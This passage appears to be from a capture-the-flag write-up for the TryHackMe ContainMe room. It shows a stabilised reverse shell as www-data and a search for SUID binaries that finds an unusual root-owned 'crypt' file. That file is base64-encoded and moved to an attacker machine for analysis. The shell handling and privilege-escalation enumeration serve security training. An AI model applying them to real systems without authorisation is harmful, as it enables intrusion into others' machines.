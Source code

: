 ```
                                                                    2022/10/07 09:03:04 socat[61537] N starting data transfer loop with FDs [5,5] and [7,7]
                                                root@host1:/root# 
www-data@host1:/var/www/html$ stty rows 22 columns 107
www-data@host1:/var/www/html$ export TERM=xterm-256color
www-data@host1:/var/www/html$ ^C
www-data@host1:/var/www/html$ 
```

## Privilege Escalation

### Containerhost1 www-data to container host1 root

**SUID sticky bit binary:**
```
www-data@host1:/var/www/html$ find / -perm -4000 2>/dev/null
[...]
/usr/share/man/zh_TW/crypt

www-data@host1:/var/www/html$ ls -lah /usr/share/man/zh_TW/crypt
-rwsr-xr-x  1 root root 351K Jul 30  2021 crypt
```

**Found a weird binary that has SUID sticky bit and owned by root:**

Let's analyze this binary!!

```
www-data@host1:/var/www/html$ cd /usr/share/man/zh_TW/

www-data@host1:/usr/share/man/zh_TW$ file crypt
bash: file: command not found

www-data@host1:/usr/share/man/zh_TW$ strings crypt
bash: strings: command not found
```

Ahh... Let's transfer this binary to our attacker machine:

```
www-data@host1:/usr/share/man/zh_TW$ base64 crypt
f0VMRgICAQAAAAAAAAAAAAIAPgABAAAAyGxFAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAAD
AEAAAAAAAAEAAAAFAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAQHYFAAAAAABAdgUAAAAAAAAQ
[...]
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# subl crypt.b64
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# base64 -d crypt.b64 > crypt
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# chmod +x crypt                   
                                                                                                           
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# file crypt        
crypt: ELF 64-bit MSB *unknown arch 0x3e00* (SYSV)
```
